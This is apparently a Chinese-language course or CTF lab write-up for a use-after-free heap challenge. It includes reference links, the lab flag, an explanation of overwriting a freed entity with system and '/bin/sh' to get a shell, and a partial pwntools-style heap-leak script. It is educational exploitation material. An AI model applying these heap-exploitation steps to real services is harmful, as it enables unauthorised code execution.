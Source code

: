 > Reference

1. [gdb - Find the exact address of variable Buf - Stack Overflow](https://stackoverflow.com/questions/4462915/find-the-exact-address-of-variable-buf)
2. [安裝 Ruby](https://www.ruby-lang.org/zh_tw/documentation/installation/)
3. [david942j/one_gadget: The best tool for finding one gadget RCE in libc.so.6](https://github.com/david942j/one_gadget)
4. [x86 calling conventions - Wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions)
5. [PWN 入門 - rop, gadget 是什麼？](https://tech-blog.cymetrics.io/posts/crystal/pwn-intro-2/)
6. [2020 程安 Pwn 筆記1 - HackMD](https://hackmd.io/@minyeon/r13y1246P)
7. [linux 下起shell失败的分析](https://o0xmuhe.github.io/2016/11/10/linux-%E4%B8%8B%E8%B5%B7shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E5%88%86%E6%9E%90/)
8. [python pwntools库 简介 主要功能有 网络 进程 文件 编解码 elf 汇编 调试-CSDN博客](https://blog.csdn.net/whatday/article/details/128090860)
9. [CS2022 Pwn writeup - HackMD](https://hackmd.io/@Chtsai873/Bkh-uXcPs)

## \[Lab\] UAF

- Flag: `flag{https://www.youtube.com/watch?v=CUSUhXqThjY}`

### 解題過程 & 思路

1. 典型的 UAF 題目，透過申請到與原先 entity 相同的記憶體位置，修改其值變成 `system` & `/bin/sh`，在透過 UAF 達到執行此 event 便能夠開出 shell。
2. 值得注意的是，這題有先給予 gift，拿到了 libc & heap 的位置，所以才能夠順利的建出 payload，以及拿到 flag。(見 `main.py`)
3. 在練習中我有嘗試不靠 gift leak 出 libc 的位置 & heap 的位置。
    1. leak libc 的位置 (見下方 `leak_heap.py`): 需要申請到 unsorted bin 再輸出其內容，便有 libc + 特定 offset 的值。
    2. leak heap 的位置 (見下方 `leak_libc.py`): 只需要申請到 tcache 再輸出其內容，便有 heap 的位置。

> leak_heap.py

```python
context.arch = 'amd64'

uaf_worker = UAFWorker(10057)

uaf_worker.conn.recvuntil(b'gift1: ')
system_addr = int(uaf_worker.conn.recvline().strip(), 16)
print(f"{hex(system_addr) = }")

uaf_worker.conn.recvuntil(b'gift2: ')
heap_leak = int(uaf_worker.conn.recvline().strip(), 16)
print(f"{hex(heap_leak) = }")

uaf_worker.register_entity(0)
uaf_worker.register_entity(1)
uaf_worker.register_entity(2)

uaf_worker.delete_entity(0)
uaf_worker.delete_entity(1)
uaf_worker.set_name(2, 0x18, b'')

print(f"{hex(system_addr) = }")
print(f"{hex(heap_leak) = }")

uaf_worker.interactive()
# 4 2
# will show heap base
```
